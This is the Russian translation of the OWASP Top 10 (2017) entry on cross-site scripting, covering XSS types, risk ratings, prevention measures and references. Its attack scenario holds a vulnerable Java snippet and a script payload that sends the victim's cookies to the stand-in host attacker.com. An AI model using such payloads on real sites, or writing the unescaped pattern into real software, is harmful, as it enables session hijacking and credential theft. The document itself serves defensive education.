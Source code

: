 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например в виде кражи учетных данных, перехвата сессий или установки вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

- __Отраженное межсайтовое выполнение сценариев (Reflected XSS)__: Приложение или API включает непроверенные и непреобразованные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например используя атаку типа "водопой" или рекламу.
- __Межсайтовое выполнение хранимых сценариев (Stored XSS)__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
- __Межсайтовое выполнение сценариев на основе объектной модели документа (DOM XSS)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе DOM. В идеале приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены DOM-узлов (напр., троянские панели входа в систему), а также атак на браузеры, например для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

- Использовать фреймворки с автоматическим преобразованием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
- Преобразовывать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) содержит подробные инструкции по преобразованию данных.
- Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе DOM. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе DOM"](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)).
- Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или преобразования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

- [Проактивная защита OWASP: Кодирование данных](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [Проактивная защита OWASP: Проверка данных](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [Стандарт подтверждения безопасности приложений OWASP: V5](https://owasp.org/www-project-application-security-verification-standard/)
- [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [Памятка OWASP: Предотвращение XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Памятка OWASP: Предотвращение XSS на основе DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [Памятка OWASP: Обход фильтра XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [Проект кодировщика Java от OWASP](https://owasp.org/www-project-java-encoder/)

### Сторонние

- [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_client-side-template-injection)